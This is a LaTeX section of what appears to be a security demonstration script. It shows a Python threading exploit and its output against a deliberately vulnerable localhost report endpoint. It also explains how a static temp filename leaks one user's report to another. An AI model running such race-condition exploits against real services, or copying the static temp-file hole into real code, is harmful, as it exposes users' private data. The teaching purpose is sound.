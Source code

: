 \documentclass[12pt,a4paper]{article}
\begin{document}
---

\subsubsection{9. Race Condition (2 min)}

\textbf{Tool:} Python script with threading

\textbf{Narration:}
\begin{quote}
\textit{"The report generation uses a static temp filename. Multiple simultaneous requests cause a race condition, where users may receive each other's reports."}
\end{quote}

\textbf{Exploit Script:}
\begin{lstlisting}[language=Python]
# race_condition_exploit.py
import requests, threading, time

def download_report(user_id, thread_id):
    url = f"http://localhost:8000/vulnerable/report/?id={user_id}"
    r = requests.get(url)
    with open(f"received_by_thread_{thread_id}.pdf", 'wb') as f:
        f.write(r.content)
    print(f"Thread {thread_id} requested report {user_id}")

# Launch 2 threads simultaneously
t1 = threading.Thread(target=download_report, args=(1, 'A'))
t2 = threading.Thread(target=download_report, args=(2, 'B'))

t1.start()
t2.start()

t1.join()
t2.join()

print("Race condition complete. Check PDF contents.")
\end{lstlisting}

\textbf{Execution:}
\begin{lstlisting}[language=bash]
python3 race_condition_exploit.py

# Output:
Thread A requested report 1
Thread B requested report 2
Race condition complete.

# Check results
ls -la *.pdf
# received_by_thread_A.pdf
# received_by_thread_B.pdf

# Open both PDFs
# Sometimes thread A gets report #2 (wrong user's data!)
\end{lstlisting}

\textbf{Vulnerability Analysis:}
\begin{lstlisting}[language=Python]
# Vulnerable code uses static filename
temp_filename = "/tmp/scada_report_temp.pdf"
# Thread A starts writing report #1
# Thread B overwrites with report #2 before A finishes
# Thread A returns report #2 content!
\end{lstlisting}
\end{document}
